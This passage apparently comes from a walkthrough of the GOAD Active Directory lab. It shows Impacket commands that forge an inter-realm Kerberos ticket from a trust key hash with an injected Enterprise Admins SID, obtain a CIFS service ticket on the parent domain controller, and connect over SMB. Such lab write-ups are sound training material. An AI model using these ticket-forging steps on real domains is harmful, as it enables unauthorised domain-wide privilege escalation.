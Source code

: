 - Now we got the trust key we can forge the ticket just like we done with the krbtgt user hash but this time we will set the spn : krbtgt/parent_domain

```bash
ticketer.py -nthash cef54bd576fc6054870d8d8cea5c069c \
 -domain-sid S-1-5-21-638448100-4005671799-261795860 \
 -domain north.sevenkingdoms.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-519 \
 -spn krbtgt/sevenkingdoms.local trustfakeuser
```

![trust_create_trust_ticket.png](/assets/blog/GOAD/trust_create_trust_ticket.png)

- Now we will use the forged TGT to ask a ST on the parent domain

```bash
export KRB5CCNAME=/workspace/trusts/trustfakeuser.ccache   
getST.py -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local \
 sevenkingdoms.local/trustfakeuser@sevenkingdoms.local -debug
```

![trust_trust_ticket_getst.png](/assets/blog/GOAD/trust_trust_ticket_getst.png)

- And now we can use our service ticket :)
- connect with smbclient

```bash
export KRB5CCNAME=/workspace/trusts/trustfakeuser@sevenkingdoms.local@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
smbclient.py -k -no-pass trustfakeuser@kingslanding.sevenkingdoms.local
```

![trust_trust_ticket_smbclient.png](/assets/blog/GOAD/trust_trust_ticket_smbclient.png)
